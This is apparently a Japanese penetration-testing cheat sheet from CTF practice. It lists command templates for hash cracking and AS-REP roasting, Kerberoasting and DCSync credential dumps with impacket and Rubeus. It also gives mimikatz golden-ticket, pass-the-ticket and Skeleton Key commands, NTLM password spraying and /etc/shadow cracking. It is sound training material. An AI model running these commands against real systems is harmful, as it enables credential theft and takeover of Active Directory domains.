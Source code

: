 ## Tools
- [CyberChef](https://github.com/gchq/CyberChef)  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」WinRM経由でログインできる。
- [exifool](https://github.com/exiftool/exiftool) (kali×, Perl)  
  「`exiftool` ファイル名 -Exifタグ名」任意のExif情報をフィルタ  
  位置情報をGoogleMapで検索するときは「-n」オプションの出力を検索にかけると良い
- ftp (kali〇, ELF)  
  「`ftp` IPアドレス -a」Anonymousログオン
- [GoBuster](https://github.com/OJ/gobuster) (kali×, Go)  
  「`gobuster` -u URL -w wordlist名 dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」GPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル名 Wordlist名」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` -j Hashファイル名」（-jで、JohnTheRipperのフォーマット・-mでHashCatのフォーマットも確認できる）
- [hydra](https://github.com/vanhauser-thc/thc-hydra) (kali〇,C)  
  「`hydra` -L ユーザリスト名 -p パスワード Domainメイン `/:A=NTLM:F=401`」でIISサーバのNTLN認証をパスワードスプレー
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  impacket-〇〇以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTは「hashcat -a 0 -m 18200 Passwordリスト名 TGTファイル名 」  
      または「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行  
    TGSは「hashcat -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    DCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる。
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt Hashファイル名 --format=Hash方式」  
    「`john` Hashファイル名 --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` zipファイル名 > 出力ファイル名」johnで解析できるようにZIPパスワードを抽出  
    - 「`rar2john` rarファイル名 > 出力ファイル名」johnで解析できるようにRARパスワードを抽出  
    - 「`ssh2john` SSH秘密鍵ファイル名 > 出力ファイル名」johnで解析できるようにSSH秘密鍵を抽出
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt 出力ファイル名」でクラック可能
  - 「john --single Hashファイル --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは「文字列:ハッシュ」形式。文字列を変換しながらHashクラックを行う。
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限であるか確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    krbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    GoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする。
- [pdfinfo](https://github.com/howtomakeaturn/pdfinfo) (kali×, PHP)  
  「`pdfinfo` PDFファイル名」PDFメタデータの確認
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「hashcat -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル名」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    TGTは「hashcat -a 0 -m 18200 TGTファイル名 Passwordリスト」でクラックできる  
    （Johnでは「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる）
- scp (kali〇, ELF)  
  「`scp` SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
- [tcpdump](https://github.com/the-tcpdump-group/tcpdump)  
  「sudo `tcpdump` -SX -i インタフェース名 tcp port ポート番号」でTCP通信をHexとASCII形式で見れる

## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「sudo `sed` -i '$a10.10.253.185 spookysec.local' /etc/hosts」を実行しHOSTSファイルを編集
- 「/etc/resolve.conf」はNetworkManagerが管理しているため、Viなどで編集しても元に戻る  
  Nameサーバを指定したい場合は、GUIのNetworkManagerから設定する
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる

## BookMark
- [CrackStation](https://crackstation.net/)  
  hashクラック
- [hashes.com](https://hashes.com/en/decrypt/hash)  
  hashクラック
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)  
  hash識別

## Link
